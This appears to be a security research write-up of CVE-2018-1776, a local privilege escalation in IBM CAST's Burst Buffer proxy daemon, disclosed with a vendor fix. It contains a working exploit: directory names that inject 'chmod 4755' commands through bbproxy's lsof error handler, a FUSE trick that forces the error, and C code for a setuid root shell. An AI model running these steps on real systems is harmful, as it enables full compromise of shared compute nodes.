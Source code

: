 # CVE-2018-1776: IBM Spectrum LSF Local Privilege Escalation

## Overview

Older versions of the Burst Buffer proxy daemon are susceptible to command injection under certain error conditions.  Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links
  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10733555

## Tools and Background Knowledge

  * Linux Command Line Tools
  * C / gcc
  * FUSE user space filesystem daemon
  * Command injection

## Writeup

The Burst Buffer proxy daemon runs on compute nodes and services burst buffer requests to stage data prior to and after a compute job has finished. Unfortunately, there are certain error conditions that result in the execution of un-escaped user input. When an EBUSY error is thrown, `bbproxy` debugs the current state of the system by running `lsof` on the file that was attempted to be accessed.  We can utilize this to inject arbitrary commands (that will run as the privileged root user) and gain total control of the system.

### Diagram
Users on a compute node have access to directly interact with the Burst Buffer proxy daemon using the `bbcmd` tool. The general flow of exploitation looks something like this:
```
                    ┌─────────────────┐   ┌─────────────────────────────────────────┐
                    │   Login Node    │   │              Compute Node               │
                    │                 │   │                                         │
┌─────────────┐     │                 │   │                                         │
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐         ┌─────────────┐ │
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├─────────▶   bbproxy   │ │
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘         └─────────────┘ │
                    └─────────────────┘   └─────────────────────────────────────────┘
```


### Vulnerable Code Path


The vulnerable code was found within error handling logic. Most of the sub-process creation that `bbproxy` performs is quite well controlled, especially in regularly traversed code execution pathways. Error handling functions, however, often contain less tested/audited/scrutinized code because they are really an exception (no pun indended!) to normal behavior. Here is a function that wraps the vulnerable code; the intent is to provide some context to the user as to why a requested file operation is not able to be performed.


![Command injection vulnerability within lsof string substitution](./media/lsofRunCmd.jpg)


The `%s` within the `snprintf` function is replaced with the file path that was being operated on, for instance during a `rmdir` operation to remove a directory. This path is completely user controllable, but it must conform to a valid filesystem path name so certain types of characters are not easy to use (including '/' characters).  `runCommand` is a function elsewhere in burst buffer code that calls `popen` to spawn a new process, within a shell, passing in the `l_Cmd` string as the command to run. The error handling code that calls `lsofRunCmd` only fires off when these `EBUSY` errors are thrown by the filesystem in the following code snippet:

![Calls to the vulnerable codepath exist only with error handling for EBUSY](./media/lsofRunCmdError.jpg)


### Cheating a bit

Unfortunately, it was unclear how often `EBUSY` errors will actually be thrown in normal operations. We assumed, however, that an adversary would have a reliable method for causing this failure state, but needed to somehow force this behavior in order to demonstrate our proof of concept code and ask the vendor to fix the issue.

I had recently come across a blog post on [writing your own FUSE filesystem](https://www.stavros.io/posts/python-fuse-filesystem/) and the AHA! insight rang through. Of course, systems administrators would need to install FUSE and configure an option to allow root processes to traverse user-owned fuse filesystems, but for our purposes that is all we needed! We quickly whipped up a FUSE filesystem (which I refer to as EBUSYFS) to only throw EBUSY errors when the `rmdir` io operation is requested.

```
# Snippet from EBUSYFS FusePY filesystem
def rmdir(self, path):
        raise FuseOSError(errno.EBUSY)
        full_path = self._full_path(path)
        return os.rmdir(full_path)
```

### Acutal exploitation

Once we had a reliable way to get to the `lsof` command, we had to figure out what we really wanted to do with it from an exploitation perspective. Getting a shell and/or modifying installed operating system files were some of the adversarial behaviors we wanted to model, so we decided to do both. Here, we create a set of directories that upon removal using `bbcmd`, will change permissions of the system `chmod` `chown` binaries to execute in a setuid root context.  Thus, anyone on the system can change permissions of any file -- giving us an easy way to compile a shell executable and become root through setuid privilege escalation.

```
$ mkdir '/tmp/fusefs/dir1; chmod 4755 $(which chmod)'
$ mkdir '/tmp/fusefs/dir1; chmod 4755 $(which chown)'
```

The shell code looks something like this, makes sure it is running privileged with the right calls to `set.*id` and just ssh's to localhost for a full shell environment with euid 0:
```
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  seteuid(0);
  setegid(0);
  setgid(0);
  setuid(0);
  execl("/usr/bin/ssh", "/usr/bin/ssh", "localhost", (char *)NULL);
}
```

Ultimately, when removing the `'/tmp/fusefs/dir1; chmod 4755 $(which chmod)'` directory, we get the following "Device or resource busy" error (indicating success!). A quick ls shows us that `chmod` has indeed modified the permissions of its on-disk binary, letting us use it later for other nefarious purposes.

```
$ bbcmd rmdir --path '/tmp/fusefs/dir1;chmod 4755 $(which chmod)'
{"id":"1","rc":"-1","in":{"apicall":"BB_RemoveDirectory","parms":{"path":"\/tmp\/fusefs\/dir1;chmod 4755 $(which chmod)"},"misc":{"uid":"1000","gid":"1000"}},"h41n10:bb_api166260":{"breadcrumbs":{"LVUtils":{"lsofRunCmd":{"entry":{"count":"1","ts":"27 16:07:27.086219"},"exit":{"count":"1","ts":"27 16:07:27.097086"}}},"bbproxy":{"msgin_removedirectory":{"exit":{"count":"1","ts":"27 16:07:27.097482"}}}}},"env":{"jobid":"1","jobstepid":"1","contribid":"999999998"},"error":{"value":"16","message":"Device or resource busy","text":"bfs::remove_all failed","func":"msgin_removedirectory","line":"435","sourcefile":"\/home\/ppsbld\/workspace\/PUBLIC_CAST_V1.1.2_ppc64LE_RH7.5_ProdBuild\/bb\/src\/bbproxy.cc"}}
```

### Putting it all together

By creating specially crafted directories, (including semicolons!), we can force additional commands besides rmdir to be executed by the burst buffer proxy as a privileged user.  This results in a full system compromise.

![Recorded exploitation of this burst buffer proxy shell injection vulnerability](./media/bbshell.gif)


### The fix

IBM's CAST 1.2.0 release fixes this particular vulnerability.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
